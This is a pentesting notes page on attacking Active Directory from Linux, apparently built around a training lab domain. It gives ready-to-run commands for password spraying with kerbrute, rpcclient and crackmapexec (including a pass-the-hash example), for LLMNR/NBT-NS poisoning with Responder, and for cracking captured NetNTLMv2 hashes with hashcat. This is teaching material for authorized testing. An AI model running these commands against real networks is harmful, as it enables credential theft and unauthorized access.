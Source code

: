```yaml
---
title: Attacking Active Directory from Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# Attacking Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)



## Password spraying attack

Steps:

- Build a user list (with previous techniques)
- Consider your password list.

From previous section we used kerbrute to build a userlist:

```
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```


### kerbrute

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

### rpcclient

```shell-session
for u in $(cat valid_ad_users);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

An important consideration is that a valid login is not immediately apparent with rpcclient, with the response Authority Name indicating a successful login. We can filter out invalid login attempts by grepping for Authority in the response. 

### crackmapexec

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_ad_users -p Password123 | grep +

# Spray password with a user.txt and a password.txt
crackmapexec smb 172.16.7.3 -u users.txt -p passwords.txt --continue-on-success --no-bruteforce

# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```


## LLMNR/NBT-NS Poisoning

[See more](5355-LLMNR.md). 

[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.

If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts.

It uses port `5355` over UDP natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port `137` over UDP.

The kicker here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with `Responder` to poison these requests.


### How does a typical attack work

1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with `Responder` running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.

### Tools

Several tools can be used to attempt LLMNR & NBT-NS poisoning:

| **Tool**                                              | **Description**                                                                                     |
| ----------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| [Responder](https://github.com/lgandx/Responder)      | Responder is a purpose-built tool to poison LLMNR, NBT-NS, and MDNS, with many different functions. |
| [Inveigh](https://github.com/Kevin-Robertson/Inveigh) | Inveigh is a cross-platform MITM platform that can be used for spoofing and poisoning attacks.      |
| [Metasploit](https://www.metasploit.com/)             | Metasploit has several built-in scanners and spoofing modules made to deal with poisoning attacks.  |

### Responder

Listening with responder

```bash
sudo responder -I ens224 -A -wf
# sudo privileges or root to make sure that all ports needed are available on our attack host for it to function best.
# -w: The use of the -w flag utilizes the built-in WPAD proxy server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has Auto-detect settings enabled.
# -f: attempts to fingerprint the remote host operating system and version.
```

With this configuration shown above, Responder will listen and answer any requests it sees on the wire.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). 

**NetNTLMv2 hashes are very useful once cracked, but cannot be used for techniques such as pass-the-hash**, meaning we have to attempt to crack them offline with [hashcat](hashcat.md) or [johntheripper](john-the-ripper.md). For example, in the case of a  NetNTLMv2 hash, we can copy the hash to a file and attempt to crack it using the hashcat module 5600. 

```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

[See hashcat for other modules beside 5600](hashcat.md).

> Hashes are also stored in a SQLite database that can be configured in the `Responder.conf` config file, typically located in `/usr/share/responder` unless we clone the Responder repo directly from GitHub.


